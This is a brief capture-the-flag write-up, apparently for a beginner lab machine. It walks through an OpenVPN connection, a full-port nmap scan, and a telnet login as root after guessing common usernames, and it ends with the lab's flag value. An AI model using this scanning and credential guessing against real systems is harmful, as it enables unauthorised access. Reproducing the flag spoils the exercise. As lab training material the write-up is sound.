



First, we connect to our `openvpn` using the command, when we use the `ovpn` file we downloaded for this purpose:
```bash
sudo openvpn Downloads/starting_point_agonen.ovpn
```

Then, we scan the ip using `nmap`, we'll run this command:
```bash
nmap -sCV -p- --min-rate=10000 10.129.63.138
```



as we can see, there is an open `telnet` port:
```
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

we try to connect via `telnet`:
```
telnet 10.129.63.138
```
And it asks for username and password, we try to give several common creds:
```
Administartor
Admin
root
```
and luckily, the `root` user worked without requiring password!


Now, all left is to read flag.txt



**Flag:*****`b40abdfe23665f766f9c61ecba8a4c19`***
